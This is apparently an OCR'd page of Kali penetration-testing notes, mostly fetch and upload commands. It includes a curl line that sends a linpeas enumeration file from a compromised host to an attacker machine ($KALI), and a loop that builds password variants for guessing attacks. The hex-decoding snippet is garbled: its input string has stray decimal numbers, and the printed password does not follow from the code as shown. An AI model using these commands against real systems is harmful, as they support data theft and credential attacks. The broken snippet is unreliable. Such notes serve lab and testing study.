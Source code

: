 #### python3 servers with PUT support:

```bash - kali
wget https://gist.github.com/touilleMan/eb02ea40b93e52604938
```

```bash - kali
wget https://gist.github.com/mildred/67d22d7289ae8f16cae7
```

```bash - kali
wget https://gist.githubusercontent.com/touilleMan/eb02ea40b93e52604938/raw/b5b9858a7210694c8a66ca78cfed0b9f6f8b0ce3/SimpleHTTPServerWithUpload.py
```

##### upload with curl command:
```bash - kali
curl -F 'file=@/tmp/linpeas.txt' [http://$KALI](http://%3cKALI%3e)
```

##### Install pip
```bash - kali
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
```

```bash - kali
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py; python get-pip.py
```

#### Decode Hex
```python - kali
import binascii

s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135'


print(binascii.unhexlify(s.replace(' ','')))

```

P@ssw0rd@123!!123

#### Password manipulation
Run with python3!
```python - kali
base_string = 'ThisIsTheUsersPassword'

# Add '1' - '25' at the end of base_string
for i in range(1, 26):
    print(f'{base_string}{i:02}') 
```

```bash - kali
 python3 pass.py
```
